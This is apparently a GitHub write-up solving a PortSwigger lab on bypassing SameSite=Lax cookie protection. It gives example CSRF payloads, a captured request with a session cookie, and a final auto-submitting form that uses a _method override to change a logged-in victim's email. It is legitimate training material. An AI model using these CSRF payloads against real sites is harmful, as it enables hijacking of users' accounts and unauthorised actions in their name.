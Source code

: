 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1a9a6cf7-580e-41d3-95d4-91589742bcfc)


## Overview :

#### Bypassing SameSite Lax restrictions using GET requests

In practice, servers aren't always fussy about whether they receive a GET or POST request to a given endpoint, even those that are expecting a form submission. If they also use Lax restrictions for their session cookies, either explicitly or due to the browser default, you may still be able to perform a CSRF attack by eliciting a GET request from the victim's browser.

As long as the request involves a top-level navigation, the browser will still include the victim's session cookie. The following is one of the simplest approaches to launching such an attack:

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

Even if an ordinary GET request isn't allowed, some frameworks provide ways of overriding the method specified in the request line. For example, Symfony supports the _method parameter in forms, which takes precedence over the normal method for routing purposes:

```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```
Other frameworks support a variety of similar parameters. 

## Solution :

> This lab's website doesn't enforce samesite cookie mechanism, the samesite mechanism is provided by the browser. We need to bypass it.
> So use **chrome** as it has SAMESITE=Lax by default.


When we login as wiener a _POST_ request is sent to  _/login_ endpoint.

Its resposne doesn't contain any Samesite restrictions when setting cookies,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/03349859-5591-40d1-a570-88b216d97392)

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cfcde74e-5234-472b-bd93-d55170d21804)

As a result, the browser will use the default Lax restriction level.

Recognize that **this means the session cookie will be sent in cross-site GET requests, as long as they involve a top-level navigation**.

In the email change functionality, update the email of wiener.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/8613f91f-8202-4332-8095-48d4803218e7)


Our browser sends the following POST request to _/change-email_ endpoint.

```http
POST /my-account/change-email HTTP/1.1
Host: 0a83000703a7443b832173c900ec0075.web-security-academy.net
Cookie: session=AByBtr98xDwtwaclCZ3UjOa6ceJRYwzI
Content-Length: 21
Cache-Control: max-age=0
Sec-Ch-Ua: "Not.A/Brand";v="8", "Chromium";v="114", "Google Chrome";v="114"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a83000703a7443b832173c900ec0075.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a83000703a7443b832173c900ec0075.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

email=test%40test.com
```
We can see that there is no unpredictable request parameters so if we can bypass the  _Lax_ restrictions then we may be able to perform a CSRF attack.



Generating POC -

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a83000703a7443b832173c900ec0075.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Here we change the  request method from _POST_ -> _GET_  (ie) - `method=GET`. But it won't work.

We can't just change the request method & genreate POC since in the response of GET message we get a error -`Method Not Allowed`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d5eb409b-2687-4501-9c43-e3069ff3b904)

From this we can understand that the endpoint _/change-email_ accepts only POST requests.

**So we need to Override the request method instead of changing the request method in the POC .**

#### Overriding the request method - 

> References
>  - https://www.sidechannel.blog/en/http-method-override-what-it-is-and-how-a-pentester-can-use-it/
>  - https://laravel.com/docs/5.0/routing#method-spoofing

The above reference tells us how we can overrride a HTTP request.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0f733de1-5c06-466c-835c-aad942684114)

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e4a70c67-5c03-4fe8-b799-19f9204e5f95)

And also ,

> Note: Chrome will make an exception for cookies set without a SameSite attribute less than 2 minutes ago. Such cookies will also be sent with non-idempotent
> (e.g. POST) top-level cross-site requests despite normal SameSite=Lax cookies requiring top-level cross-site requests to have a safe (e.g. GET) HTTP method.
>  1`Support for this intervention ("Lax + POST") will be removed in the future.


So in our final payload, we change the request method - `method="GET"` & then we include a hidden input form (ie.) - `<input type="hidden" name="_method" value="PUT">` inside the form to override the request method.


```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a69000c034b620380c93fc10079009e.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="_method" value="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

And thus we have solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/45656199-6217-4ec0-ab0d-c74678556fad)

